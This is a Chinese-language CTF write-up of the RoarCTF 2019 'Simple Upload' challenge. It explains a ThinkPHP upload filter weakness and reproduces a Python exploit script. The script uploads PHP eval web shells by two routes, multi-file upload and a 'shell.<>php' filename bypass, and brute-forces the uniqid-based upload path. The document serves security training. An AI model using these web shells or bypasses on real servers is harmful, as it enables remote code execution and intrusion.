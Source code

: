 # Day02-12/13

## 0x01 [RoarCTF 2019]Simple Upload

一打开就是thinkphp了，**$upload = new \Think\Upload();**主题逻辑就在这一句了，我们看看是不是有什么漏洞

upload方法支持**多文件上传**。并且 我们试一试就知道

```
$upload->exts      =     array('jpg', 'gif', 'png', 'jpeg');// 设置附件上传类型
```

这个才是官网给的正确使用方式

所以我们爆破就yyds了!

**uniqid** 最后就是三个位数的差距。

所以这个过滤其实只有一句

```
if (strstr(strtolower($uploadFile['name']), ".php") ) {
            return false;
        }
```

贴上大佬的exp:

https://blog.csdn.net/sopromeo/article/details/106472619

```
import requests
'''方法一'''
url = 'http://598b202c-5c60-4a06-b5a1-83ef646f7a82.node3.buuoj.cn/index.php/home/index/upload'
s = requests.Session()

file1 = {"file":("shell","123",)}
file2 = {"file[]":("shell.php","<?php @eval($_POST[penson]);")} #批量上传用[]
r = s.post(url,files=file1)
print(r.text)
r = s.post(url,files=file2)
print(r.text)
r = s.post(url,files=file1)
print(r.text)

'''爆破'''

dir ='abcdefghijklmnopqrstuvwxyz0123456789'

for i in dir:
    for j in dir:
        for k in dir:
            for x in dir:
                for y in dir:
                    url = 'http://598b202c-5c60-4a06-b5a1-83ef646f7a82.node3.buuoj.cn/Public/Uploads/2020-06-01/5ed4adac{}{}{}{}{}'.format(i,j,k,x,y)
                    print(url)
                    r = requests.get(url)
                    if r.status_code == 200:
                        print(url)
                        break
'''方法二'''
url = "http://9b96c9f8-7b74-491a-94fd-f8063d1b8a29.node3.buuoj.cn/index.php/home/index/upload/"
s = requests.Session()
files = {"file": ("shell.<>php", "<?php eval($_GET['cmd'])?>")}
r = requests.post(url, files=files)
print(r.text)
```